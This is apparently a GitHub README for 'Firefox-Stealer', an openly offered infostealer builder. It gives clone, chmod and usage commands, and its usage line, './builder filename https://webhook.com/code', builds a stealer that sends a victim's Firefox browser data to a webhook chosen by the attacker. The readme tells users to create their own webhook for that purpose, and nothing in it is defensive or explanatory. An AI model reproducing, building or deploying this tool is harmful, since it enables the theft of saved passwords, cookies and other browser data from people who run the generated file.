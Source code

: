 <h1 align="center">
[ Nahid Alam ]
</h1>

<h2 align="center">
Firefox-Stealer
</h2>
<h2 align="center">
<a href="https://github.com/illusiondemon"><img title="Bangladesh" src="https://img.shields.io/badge/MADE%20IN-BANGLADESH-green?colorA=%23ff0000&colorB=%23017e40&style=flat"></a> 
</p><br>

<h2 align="center">
How To Install
</h2>

`
git clone https://github.com/illusiondemon/firefox-stealer.git
`

`
cd firefox-stealer
`

`
chmod +x *
`

<h5 align="center">How To Use<h5>

`
./builder filename https://webhook.com/code
`

<h5 align="center">Create your own webhook url<h5>
 `
 ./builder filename https://webhook.com/code
<p align="center">
  <img alt="Layout" src="https://user-images.githubusercontent.com/88379378/173880221-842c57d5-b0b3-4f56-8d24-5e94c8fb17ec.png">
</p>
